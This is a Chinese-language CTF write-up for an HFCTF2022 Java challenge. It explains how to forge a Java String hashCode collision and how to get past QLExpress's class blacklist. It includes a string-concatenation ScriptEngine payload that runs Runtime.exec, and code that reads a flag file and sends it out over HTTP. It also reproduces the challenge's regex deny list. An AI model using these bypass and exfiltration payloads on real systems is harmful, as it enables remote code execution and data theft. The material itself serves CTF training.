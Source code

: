 
某CTF题目如下：

```java
public class QlApplication {
@RequestMapping({"/"})
public String index(){
return "welcome! :)";
}

    @RequestMapping({"/exp"})
    public String exp(@RequestBody Map params) throws Exception {
        String key  = (String)params.get("token").toString();
        String secret = "HFCTF2022";
        if (key.hashCode() == secret.hashCode() && !secret.equals(key)) {
            String cmd = params.get("cmd").toString();
            Pattern pattern = Pattern.compile("Process|runtime|javascript|\\+|char|\\\\|from|\\|\\]|load",2);
            if (pattern.matcher(cmd).find()){
                return "nononono!!";
            }

            ExpressRunner runner = new ExpressRunner();
            DefaultContext<String,Object> context = new DefaultContext<>();
            Object r = runner.execute(cmd,context,null,true,false);
            return "hack me";
        }

        return key;
    }
}

```

## java hash碰撞

其中的一个考点是，java 的hashcode，需要找到一个与原字符串不相等但hashcode相同的字符串。
String的hashcode的实现：
jdk1.8里面的源码：

```
/*Returns a hash code for this string. The hash code for a String object is computed as
s[0]*31^(n-1) + s[1]*31^(n-2) + ... + s[n-1]

using int arithmetic, where s[i] is the ith character of the string, n is the length of the string, and ^ indicates exponentiation. (The hash value of the empty string is zero.)
Returns:
a hash code value for this object.
*/
public int hashCode() {
int h = hash;
if (h == 0 && value.length > 0) {
char val[] = value;

        for (int i = 0; i < value.length; i++) {
            h = 31 * h + val[i];
        }
        hash = h;
    }
    return h;
}

```

计算的关键就是for循环中的h = 31 * h + val[i]，对字符串的每一个字符依次进行该运算。下面有几个例子

```
//97
"a".hashCode()
//97*31+98=3105
"ab".hahsCode()
//3105*31+99=96354"abc".hashCode()
```

可以看到前面字符的hash值也会影响后续hash值，于是我们能够构造出如下等式：
```
31*h1 + a[i] = 31*h2 + b[j]
(h1-h2)*31 = b[j]-a[i]   
```

假如有字符串aa，我们能够很容易计算出与之hash相等的另一字符串bB

```
//bB --> aa
31*98 + 66 = 3104 = 31*97 + 97 (aa)
```

后续字符串的hash也相等

```
//trueSystem.out.println("bBDDD".hashCode()=="aaDDD".hashCode());   
```

因此本题想要构造出与HFCTF2022的hash相等的另一字符串，我们只需要找到与字符HF的hash相等的字符即可：
```
HF=31*72+70=2302=31*71+101=Ge=31*73+39=I'
```

## hash碰撞另一种思路

使用hashcat工具解决：

先算出给出字符串的hash值（用16进制表示）,然后用hashcat爆破：

```
System.out.println(Integer.toHexString("HFCTF2022".hashCode())); //865bf5b5

hashcat.exe -m 18700 -a 3 865bf5b5 --show 
```
```
xxxxx\hashcat-6.2.5>hashcat.exe -m 18700 -a 3 865bf5b5 --show
865bf5b5:18wd6vi
```

## QLExpress

另外一个考点,题中的`ExpressRunner`是使用的[QLExpress](https://github.com/alibaba/QLExpress),QLExpress支持直接运行java代码,但是有黑名单类的限制,黑名单:
+ java.lang.System.exit
+ java.lang.Runtime.exec
+ java.lang.ProcessBuilder.start
+ java.lang.reflect.Method.invoke
+ java.lang.reflect.Class.forName
+ java.lang.reflect.ClassLoader.loadClass
+ java.lang.reflect.ClassLoader.findClass

绕过方法一:使用scriptEngineManager:

`cmd = new javax.script.ScriptEngineManager(null).getEngineByName("js").eval("java.lang.Run".concat("time.getRun").concat("time().exec('calc')"))`

绕过方法二:只是限制了不能执行命令,还有其他的读文件等操作可以进行,所以可以读出文件内容再通过http将flag发送出来:
```
import java.net.HttpURLConnection;
import java.net.URL;
import java.nio.file.Files;
import java.nio.file.Paths;
String flag = new String(Files.readAllBytes(java.nio.file.Paths.get(new java.net.URI("file:///j:/tmp/flag.txt"))));
HttpURLConnection conn = (HttpURLConnection) new URL("http://127.0.0.1:8080/?a="+flag).openConnection();
conn.setRequestMethod("GET");
conn.getResponseCode()
```